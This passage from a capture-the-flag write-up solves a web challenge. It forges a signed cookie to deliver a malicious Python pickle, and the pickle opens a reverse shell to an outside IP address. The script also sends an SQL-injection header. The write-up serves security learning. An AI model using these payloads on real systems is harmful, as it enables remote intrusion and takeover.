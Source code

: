 ```python
resp = requests.post("http://pyzzeria.chall.polictf.it/oven",  data={"order_code": "sausage"}, headers=headers,  cookies=cookies)
```

Success! Final step is to use pickle to get RCE. I first tried with a simple sleep to see if the request waited 10 seconds before returning, which it did.

```python
class PayloadClass(object):
	def __reduce__(self):
		comm = "sleep 10"
		return (os.system, (comm,))

payload = pickle.dumps(PayloadClass())
```

But then I couldn't get any reverse shell working, it would just hang or error out. I thought maybe outgoing network connections were being blocked, but a simple wget to my webserver got through successfully. Perhaps only port 80 is allowed?


```python
#!/usr/bin/env python

import hashlib
import hmac
import requests
import pickle

import os

class PayloadClass(object):
	def __reduce__(self):
		remote_server = "172.104.127.243"
		remote_port = 80
		comm = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("%s",%d));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""%(remote_server,remote_port)
		return (os.system, (comm,))

payload = pickle.dumps(PayloadClass())

secret = "y3y0y3y0y3y0y3!"
headers = {
  "X-Forwarded-For": "127.0.0.2 ' OR 1=1 --"
}

enc = payload.encode("base64")
calcHash = hmac.new(secret, msg=payload, digestmod=hashlib.sha256).hexdigest()

cookies = requests.cookies.RequestsCookieJar()
cookies.set("pyzza", ("S:%s:%s"%(enc,calcHash)).encode("hex"))


pizza = pickle.loads(payload)

resp = requests.post("http://pyzzeria.chall.polictf.it/oven",  data={"order_code": "sausage"}, headers=headers,  cookies=cookies)
print resp.text
```


[pizzas]: {{ site.url }}/assets/images/pizza.jpg
[oven]: {{ site.url }}/assets/images/oven.jpg
[order]: {{ site.url }}/assets/images/order.jpg
[hmac]: {{ site.url }}/assets/images/hmac.jpg
[dev]: {{ site.url }}/assets/images/dev.jpg
[cook]: {{ site.url }}/assets/images/cook.jpg
[strings]: {{ site.url }}/assets/images/strings.jpg
[header]: http://mybrowseraddon.com/modify-header-value.html
[pickle]: https://docs.python.org/2/library/pickle.html
[pickle-rce]: https://blog.nelhage.com/2011/03/exploiting-pickle/